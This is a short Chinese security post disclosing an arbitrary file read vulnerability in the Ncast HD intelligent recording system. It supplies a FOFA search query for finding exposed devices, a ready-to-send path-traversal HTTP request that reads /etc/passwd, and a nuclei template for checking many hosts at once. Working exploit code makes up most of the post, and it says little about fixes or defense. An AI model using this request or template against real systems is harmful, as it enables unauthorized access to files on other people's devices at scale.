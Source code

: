 #  Ncast高清智能录播系统存在任意文件读取漏洞   
原创 RockSec  Rock sec   2024-05-06 20:16  
  
## 漏洞简介  
  
Ncast 录播系统能将授课或演讲者之影像、声音及上课讲义，以全硬件设备方式即时记录成标准的网络流媒体格式，并通过网络及服务器同步直播。  
## FOFA语句  
  
title=="高清智能录播系统"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9tXQ9Go8nLW3rXcLn0RzUPZia0DG42T7sibtTicnQafk2hndJvEnvJAbKdVBRlpyKn8ribicBvhjMa03micpPIreFmGA/640?wx_fmt=png&from=appmsg "")  
## 测试截图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9tXQ9Go8nLW3rXcLn0RzUPZia0DG42T7s1h9EBoDMRNTW5dqiaib38Ria3JIzY0Rk5Hco2vdEicyTwLpEy0DmgqWAhA/640?wx_fmt=png&from=appmsg "")  
  
    **POC如下：**  
```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9tXQ9Go8nLW3rXcLn0RzUPZia0DG42T7szSV1WvQ2wcN7v6KYD0UJonDGYZB1ZvtGhib3UzhQkoreZ1jwOiak0N3A/640?wx_fmt=png&from=appmsg "")  
## nuclei批量验证：  
```
id: ncast_arbitrary_file_read

info:
  name: Ncast任意文件读取漏洞
  author: maoge
  severity: high
  description: Ncast高清智能录播系统任意文件读取漏洞
  reference:
    - https://example.com/
  metadata:
    verified: true
    max-request: 1
    fofa-query: title=="高清智能录播系统"
    hunter-query: web.title=="高清智能录播系统"

http:
  - raw:
      - |
        GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
        Accept: */*
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close

    max-redirects: 3
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - bin/sh
          - root
```  
  
  
  
